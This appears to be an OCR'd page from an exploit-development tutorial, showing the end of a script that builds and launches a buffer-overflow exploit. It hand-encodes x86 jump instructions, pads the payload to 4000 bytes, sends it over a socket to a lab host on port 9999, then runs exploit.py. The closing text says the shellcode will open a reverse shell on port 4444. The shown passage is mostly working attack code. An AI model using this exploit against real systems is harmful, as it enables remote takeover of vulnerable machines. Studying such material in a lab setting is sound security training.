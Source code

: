 ```
jump += "\x66\x2d\x01\x1f"  # sub ax,0x1f01
jump += "\x40"  # inc eax
jump += "\x66\x50"  # push ax
jump += "\x66\x35\x73\x12"  # xor ax,0x1b03

message += jump 
message += 'E' * (4000 - 3499 - 4 - 4 - len(jump))
message += ".\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.186.135", 9999))

s.send(message)
EOF

echo "Cleaning up..."
rm ${ROOT}/{shell,shell-encoded,shell-encoded.nasm}

echo "Executing exploit..."
./exploit.py
```

If we've done everything right up to this point, our shellcode will execute and
we'll receive a reverse shell connection on port 4444.
